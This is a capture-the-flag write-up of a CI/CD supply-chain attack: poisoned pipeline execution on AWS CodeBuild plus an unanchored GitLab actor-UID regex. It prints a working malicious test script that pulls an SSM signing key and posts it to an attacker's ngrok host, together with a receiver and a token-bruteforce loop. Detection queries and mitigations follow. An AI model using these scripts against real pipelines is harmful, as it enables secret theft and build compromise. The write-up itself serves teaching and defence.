# Glass House 

```
Category: CI/CD Security / Supply Chain Attack
Author: Nir Ohfeld
Difficulty: Hard
Points: 50
```

# Challenge Description

We open-sourced the platform powering this CTF. What could go wrong?

> Hint: The pipeline trusts too much. So does the regex.




# Summary

The platform's CI/CD pipeline was vulnerable to a **Poisoned Pipeline Execution (PPE)** attack combined with an **unanchored regex bypass** in AWS CodeBuild's webhook actor filter.

The CodeBuild webhook was configured to only trigger builds for a trusted GitLab actor UID (`17531`). However, because the regex was unanchored, any UID *containing* `17531` as a substring would pass the filter. By mass-creating project access tokens until one received a UID containing `17531`, an attacker could push a commit as that bot and trigger a privileged build — which executed an attacker-controlled `tests/run.sh` from the fork branch, exfiltrating the SSM signing key.

The vulnerability chain relied on:

* Unpinned contributor code executed in privileged CI (PPE)
* Unanchored `ACTOR_ACCOUNT_ID` regex (`17531` instead of `^17531$`)
* Sequential GitLab UID allocation enabling UID prediction/bruteforce
* Over-privileged CodeBuild IAM role with `ssm:GetParameter` on the signing key

| Step | Access Level    | Technique Used                          | Result                                                                                                           |
| :--: | :-------------------- | :----------------------------------- | :------------------------------------------------------ |
|  1   | Unauthenticated | **Source Code Recon**                   | Identified `buildspec.yml` running `bash tests/run.sh` from unpinned contributor branch — classic PPE vector.   |
|  2   | Unauthenticated | **Webhook Config Analysis**             | Discovered CodeBuild webhook filters on `ACTOR_ACCOUNT_ID` with unanchored regex `17531`.                       |
|  3   | Unauthenticated | **Regex Bypass Identification**         | Confirmed unanchored regex: any UID containing `17531` as substring passes (e.g. `301617531`).                  |
|  4   | Attacker        | **Fork & Payload Staging**              | Forked upstream repo, replaced `tests/run.sh` with boto3 payload to exfiltrate SSM signing key via webhook.     |
|  5   | Attacker        | **MR Creation**                         | Opened MR #645 from `solve-attempt` branch against upstream project (ID: 1).                                    |
|  6   | Attacker        | **Mass Token Creation (UID Hunt)**      | Mass-created project access tokens against fork project until UID `301617531` was allocated (245 iterations).   |
|  7   | Attacker        | **Build Trigger via Winning Bot**       | Pushed commit using bot token (UID `301617531`) — unanchored regex matched, CodeBuild build triggered.          |
|  8   | CodeBuild       | **PPE — Payload Execution**             | CodeBuild checked out fork branch, ran attacker's `tests/run.sh`, called `ssm:GetParameter` on signing key.     |
|  9   | CodeBuild       | **SSM Secret Exfiltration**             | Signing key POSTed to attacker's ngrok receiver along with computed HMAC flag.                                   |
|  10  | Attacker        | **Flag Computation & Submission**       | Computed `HMAC-SHA256(key, "12:kshitijraut360@gmail.com")[:24]`, submitted `WIZ_CTF{...}` — challenge solved.   |





# Offensive Operations

## Attack Surface

The challenge open-sourced the CTF platform itself. Reading the source revealed:

- A GitLab instance at `git.cloudsecuritychampionship.com`
- A `buildspec.yml` that triggers AWS CodeBuild on MR events
- The signing key stored in AWS SSM Parameter Store at `/ctf/challenge-12/signing-key`
- A CodeBuild webhook with an `ACTOR_ACCOUNT_ID` filter

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Glass_door/upstreamporj.txt "Results")









## Vulnerability Chain

### Poisoned Pipeline Execution (PPE)

`buildspec.yml` runs:
```yaml
build:
  commands:
    - bash tests/run.sh
```

The script `tests/run.sh` is checked out **from the contributor's branch**, not pinned to a trusted ref. Any fork contributor who can get CodeBuild to build their branch controls what executes inside the privileged build environment - classic **Poisoned Pipeline Execution**.

### Unanchored Regex Bypass (CodeBreach)

CodeBuild's webhook was configured to only trigger builds for a trusted actor UID (`17531` - the challenge author's GitLab UID). However the regex was **unanchored**:

| Secure | Vulnerable |
|-----------|--------------|
| `^17531$` | `17531` |

An unanchored regex matches any string **containing** `17531` as a substring. So UID `301617531` passes the filter because it contains `17531`.

### Over-Privileged IAM Role

The CodeBuild execution role had `ssm:GetParameter` on the signing key - a secret that had no business being accessible from a CI build triggered by external contributors.


## Exploitation Steps

### Reconnaissance

- Registered on `git.cloudsecuritychampionship.com`
- Forked the upstream repo (`cloudsecuritychampionship/platform`, project ID: 1)
- Fork created at `kshitijraut360/platform` (project ID: 487)

### Payload Preparation

Replaced `tests/run.sh` in the fork with a malicious script:

```bash
#!/bin/bash
(
  pip install -q boto3 2>/dev/null || true
  python3 - <<'PYEOF'
import os, boto3, hmac as _hmac, hashlib, json, urllib.request

EMAIL   = "kshitijraut360@gmail.com"
DROPBOX = "https://travesty-scrambled-payment.ngrok-free.dev"

try:
    key = os.environ["CTF_CHALLENGE_12_SIGNING_KEY"]
except KeyError:
    ssm = boto3.client("ssm", region_name="us-east-1")
    key = ssm.get_parameter(
        Name="/ctf/challenge-12/signing-key",
        WithDecryption=True,
    )["Parameter"]["Value"]

msg    = f"12:{EMAIL.strip().lower()}".encode()
digest = _hmac.new(key.encode(), msg, hashlib.sha256).hexdigest()
flag   = f"WIZ_CTF{{{digest[:24]}}}"

payload = json.dumps({"signing_key": key, "flag": flag, "email": EMAIL}).encode()
req = urllib.request.Request(DROPBOX, data=payload,
      headers={"Content-Type": "application/json"}, method="POST")
urllib.request.urlopen(req, timeout=15)
PYEOF
) || true
```


Pushed to branch `solve-attempt` and opened MR #645 against the upstream project.






### Exfil Receiver Setup

- Started `ngrok` to expose local port 8080:
  ```
  https://travesty-scrambled-payment.ngrok-free.dev → localhost:8080
  ```
- Ran a Python HTTP listener to capture and pretty-print incoming POSTs:
  ```python
  from http.server import HTTPServer, BaseHTTPRequestHandler
  import json

  class Handler(BaseHTTPRequestHandler):
      def do_POST(self):
          length = int(self.headers.get("Content-Length", 0))
          body = self.rfile.read(length)
          print(json.dumps(json.loads(body), indent=2))
          self.send_response(200)
          self.end_headers()

  HTTPServer(("", 8080), Handler).serve_forever()
  ```




### UID Hunt (Mass Token Creation)

GitLab project access tokens get sequential UIDs. The strategy: mass-create tokens under fork project 487 until one receives a UID containing `17531`.





**Flag formula:**
```python
import hmac, hashlib
key   = "<signing key from SSM>"
flag  = "WIZ_CTF{%s}" % hmac.new(
    key.encode(), b"12:kshitijraut360@gmail.com", hashlib.sha256
).hexdigest()[:24]
```


```bash
FORK_ID=487
i=0

while true; do
  i=$((i+1))
  RESP=$(curl -s -X POST -H "PRIVATE-TOKEN: $PAT" \
    "https://git.cloudsecuritychampionship.com/api/v4/projects/$FORK_ID/access_tokens" \
    -H "Content-Type: application/json" \
    -d "{\"name\":\"b-$i\",\"scopes\":[\"api\"],\"expires_at\":\"2026-12-31\"}")

  TOKEN=$(echo "$RESP" | jq -r '.token // empty')
  [ -z "$TOKEN" ] && sleep 3 && continue

  BOTUID=$(curl -s -H "PRIVATE-TOKEN: $TOKEN" \
    "https://git.cloudsecuritychampionship.com/api/v4/user" | jq -r '.id')

  echo "[$i] uid=$BOTUID"

  if echo "$BOTUID" | grep -q "17531"; then
    echo "*** MATCH! UID=$BOTUID ***"
    echo "$TOKEN" > /tmp/winning_token.txt
    # auto-fire build trigger loop
    while true; do
      curl -s -X POST -H "PRIVATE-TOKEN: $TOKEN" \
        "https://git.cloudsecuritychampionship.com/api/v4/projects/487/repository/commits" \
        -H "Content-Type: application/json" \
        -d "{\"branch\":\"solve-attempt\",\"commit_message\":\"t$i\",\"actions\":[{\"action\":\"update\",\"file_path\":\"README.md\",\"content\":\"$i\"}]}" \
        | jq '.id // .message'
      sleep 120
    done
  fi
done
```

**Result:** UID `301617531` was matched - it contains `17531` as a substring.





```
[245] uid=301617531
*** MATCH! ***
```

### Build Trigger

With the winning bot token (UID `301617531`), a commit was pushed to the `solve-attempt` branch. CodeBuild's webhook received a `PULL_REQUEST_UPDATED` event from actor `301617531`. The unanchored regex `17531` matched as a substring, the build triggered, and CodeBuild:

1. Checked out the fork's `solve-attempt` branch
2. Executed `bash tests/run.sh` (our malicious payload)
3. Called `ssm:GetParameter` on `/ctf/challenge-12/signing-key`
4. Computed the personalized HMAC flag
5. POSTed everything to our ngrok receiver

### Flag

The Python listener received:

```json
{
  "signing_key": "<redacted>",
  "flag": "WIZ_CTF{xxxxxxxxxxxxxxxxxxxxxxxx}",
  "email": "kshitijraut360@gmail.com"
}
```

Flag submitted at `https://cloudsecuritychampionship.com/challenge/12` 



## Root Causes

| # | Vulnerability | Fix |
|---|---------------|-------------------------------------------------------------------------------------------------|
-| 1 | **PPE** - `tests/run.sh` executed from unpinned contributor branch | Pin `buildspec.yml` to a trusted SHA; never run contributor code in privileged CI |
| 2 | **Unanchored regex** - `17531` instead of `^17531$` | Always anchor regex filters: `^17531$` |
| 3 | **Over-privileged IAM** - CodeBuild role had `ssm:GetParameter` on signing key | Least privilege - CI roles should not have access to secrets they don't need |


## Attack Flow Diagram

```
Fork repo → Stage malicious tests/run.sh → Open MR
       |
       v
Mass-create project access tokens (245 iterations)
       |
       v
UID 301617531 found (contains "17531")
       |
       v
Push commit as bot → CodeBuild webhook fires
       |
Unanchored regex "17531" matches "301617531"
       |
       v
CodeBuild executes tests/run.sh from fork branch
       |
       v
boto3 → ssm:GetParameter → signing key exfiltrated
       |
       v
HMAC-SHA256(key, "12:kshitijraut360@gmail.com")[:24]
       |
       v
WIZ_CTF{xxxxxxxxxxxxxxxxxxxxxxxx} → submitted 
```



## Key Takeaways

- **PPE is a critical CI/CD risk** - never execute code from untrusted branches in privileged build environments
- **Regex anchoring matters** - a missing `^` and `$` turned a UID allowlist into a substring match
- **IAM least privilege** - if CodeBuild didn't have SSM access, the whole chain fails at the last step
- **Open-sourcing infrastructure** exposes your attack surface - review carefully before publishing


# Defensive Operations

## Strategic Overview

* **1.1 Definition:** End-to-end CI/CD supply chain compromise leveraging **Poisoned Pipeline Execution (PPE)** coupled with an **unanchored regex bypass** in AWS CodeBuild's webhook actor filter for SSM secret exfiltration.
* **1.2 Impact:** **Full Signing Key Compromise.** The adversary transitions from an unauthenticated external contributor to privileged CodeBuild execution context, enabling direct AWS SSM Parameter Store access and personalized flag computation.
* **1.3 The Scenario:** The CTF platform was open-sourced on GitLab. An adversary forks the repository, stages a malicious `tests/run.sh`, and exploits an unanchored `ACTOR_ACCOUNT_ID` regex in CodeBuild's webhook filter. By mass-creating project access tokens until one receives a UID containing the trusted substring `17531`, the attacker triggers a privileged build that exfiltrates the SSM signing key and computes the challenge flag.


## System Architecture & Theory

* **2.1 Protocol Environment:**
  * **Source Control Layer:** GitLab CE (`git.cloudsecuritychampionship.com`) — Fork/MR model.
  * **CI/CD Layer:** AWS CodeBuild — Webhook-triggered builds via GitLab MR events.
  * **Secrets Layer:** AWS SSM Parameter Store (`/ctf/challenge-12/signing-key`).
  * **Identity Layer:** GitLab Project Access Tokens — Sequential UID allocation.

* **2.2 Attack Logic Flow:**
> [Fork Upstream Repo] → [Stage Malicious tests/run.sh] → [Open MR against Upstream] → [Mass-Create Tokens until UID contains "17531"] → [Push Commit as Winning Bot] → [Unanchored Regex Bypass → CodeBuild Triggers] → [PPE: tests/run.sh Executes] → [SSM GetParameter] → [Signing Key + Flag Exfiltrated]

* **2.3 Theoretical Analogy:** The attacker exploits the open-source nature of the platform as a trojan horse — submitting a "contribution" (MR) that appears legitimate, while the CI pipeline's regex bouncer is tricked into waving through a disguised badge number. Once inside, the build environment's overly permissive IAM role hands over the master key.


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute               | Technical Details                                                                                                                                                      |
| :- | : |
| **Primary Identifiers** | `buildspec.yml` (`bash tests/run.sh`), `ACTOR_ACCOUNT_ID` webhook filter, `ssm:GetParameter` IAM permission.                                                         |
| **Critical Weakness**   | **Unpinned contributor code executed in privileged CI** (PPE) combined with **unanchored regex** (`17531` instead of `^17531$`) on CodeBuild webhook actor allowlist. |
| **Offensive Technique** | Sequential UID bruteforce via mass token creation, followed by authenticated commit push to trigger unanchored substring match and execute attacker-controlled payload. |

### Prerequisites

* **Access Level:** Valid GitLab account on `git.cloudsecuritychampionship.com` with fork permissions on project ID `1`.
* **Connectivity:** Outbound HTTPS to GitLab API; inbound webhook receiver (ngrok or equivalent) to capture exfiltrated secrets.
* **Target State:** CodeBuild IAM role possessing `ssm:GetParameter` on `/ctf/challenge-12/signing-key`; `buildspec.yml` executing `tests/run.sh` from contributor branch without SHA pinning.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries abusing PPE will stage malicious CI scripts in fork branches and generate abnormal volumes of short-lived project access token creation events immediately before a CI build trigger, followed by AWS SSM parameter access from within the build.

* **Behavioral Outliers:**
  * **Token Creation Spike:** Hundreds or thousands of project access tokens created against a single project in a short window — a strong indicator of UID bruteforcing.
  * **SSM Access from CodeBuild:** `ssm:GetParameter` calls on sensitive parameters from a CodeBuild execution context initiated by a non-canonical actor UID.
  * **Outbound HTTP from Build:** Network egress to an unknown external host (ngrok/webhook) during `tests/run.sh` execution — unexpected for a test runner.

* **Toxic Combinations:** A CodeBuild webhook with an **unanchored** actor UID filter on a repository that executes **contributor-branch scripts** without pinning creates a direct path from unauthenticated external contributor to privileged AWS API access.


## Detection Engineering

* **Telemetry Gap Analysis:**
  * **GitLab Audit Log:** `project_access_token_created` events — bulk creation from a single user is anomalous.
  * **AWS CloudTrail:** `GetParameter` calls on SSM secrets from CodeBuild principal — especially from builds initiated by non-standard actor UIDs.
  * **AWS CodeBuild Logs:** Build source reference originating from a fork branch, not the canonical repository default branch.

* **Detection-as-Code (CloudWatch / Athena on CloudTrail):**

```sql
-- Detect SSM GetParameter on signing key from CodeBuild context
SELECT
    eventTime,
    userIdentity.arn,
    requestParameters.name AS parameter_name,
    sourceIPAddress
FROM cloudtrail_logs
WHERE eventName = 'GetParameter'
  AND requestParameters.name LIKE '%signing-key%'
  AND userIdentity.arn LIKE '%codebuild%'
ORDER BY eventTime DESC;
```

```sql
-- Detect CodeBuild builds triggered by non-canonical actor UIDs
-- (i.e. UIDs that are NOT exactly the trusted value)
SELECT
    eventTime,
    requestParameters.projectName,
    requestParameters.sourceVersion,
    userIdentity.accountId
FROM cloudtrail_logs
WHERE eventName = 'StartBuild'
  AND eventSource = 'codebuild.amazonaws.com'
ORDER BY eventTime DESC;
```

* **Resilience Test:**
  * **Bypass:** Adversary may slow-roll token creation across multiple days to avoid rate-based detections, or use multiple GitLab accounts to distribute the UID burn across projects.
  * **Sub-Rule Countermeasure:** Correlate GitLab `project_access_token_created` volume with subsequent CodeBuild `StartBuild` events within a 10-minute window. Flag any build where the triggering actor UID was created within the last hour.


## Toolkit & Implementation

* **Automation:**
  * `curl` + `jq`: GitLab API interaction for token creation and UID extraction.
  * `boto3` (`ssm.get_parameter`): AWS SDK for SSM secret retrieval within the build.
  * `ngrok` + Python `HTTPServer`: Lightweight exfiltration receiver requiring no external infrastructure.
  * `tmux`: Session persistence for long-running UID hunt loop.

* **OPSEC Analysis:** The attack is **Moderately Noisy**. Mass token creation (245+ iterations) generates a visible spike in GitLab audit logs. However, the actual exploit trigger — a single commit push from a bot account — is indistinguishable from a legitimate contributor update without UID-aware logging. The SSM access from CodeBuild is the highest-fidelity post-exploitation indicator.

* **Post-Exploitation:** With the signing key in hand, the attacker can compute a valid personalized HMAC flag for any registered participant email — not just their own. The key itself may also be reused across challenge iterations if not rotated post-exploitation.


## Defensive Mitigation

* **Technical Hardening:**
  * **CodeBuild Webhook:** Anchor all `ACTOR_ACCOUNT_ID` regex filters (`^17531$` not `17531`). Apply allowlist logic, not substring matching.
  * **CI/CD Pipeline:** Never execute `bash tests/run.sh` from a contributor's unpinned branch in a privileged build context. Use a pinned, reviewed script from the default branch or a trusted ref.
  * **IAM Least Privilege:** The CodeBuild execution role must not possess `ssm:GetParameter` on secrets unrelated to the build's core function. Signing keys have no business being accessible from a community-triggered CI pipeline.
  * **SSM:** Enable CloudTrail data events on Parameter Store. Alert on any `GetParameter` for Tier 0 secrets from non-approved IAM principals.

* **Personnel Focus:**
  * Open-sourcing infrastructure dramatically expands attack surface — review all CI/CD configurations for PPE exposure before publishing.
  * Treat contributor-triggered builds as **untrusted execution environments**. Apply the same scrutiny as user-supplied input.


## Quick-Action Playbook

| Step | Objective       | Technique / Command                                                                                      |
| :--: | :-- | :- |
|  1   | **Isolate**     | `aws codebuild update-webhook --project-name <name> --no-build-type`                                    |
|      |                 | Disable the CodeBuild webhook immediately to stop further malicious build triggers.                      |
|  2   | **Investigate** | `aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=GetParameter`   |
|      |                 | Identify all SSM access events from the CodeBuild principal to scope the breach.                        |
|  3   | **Remediate**   | `aws ssm put-parameter --name /ctf/challenge-12/signing-key --value <new> --overwrite`                  |
|      |                 | Rotate the signing key immediately. Audit and tighten the CodeBuild IAM role to remove SSM permissions. |
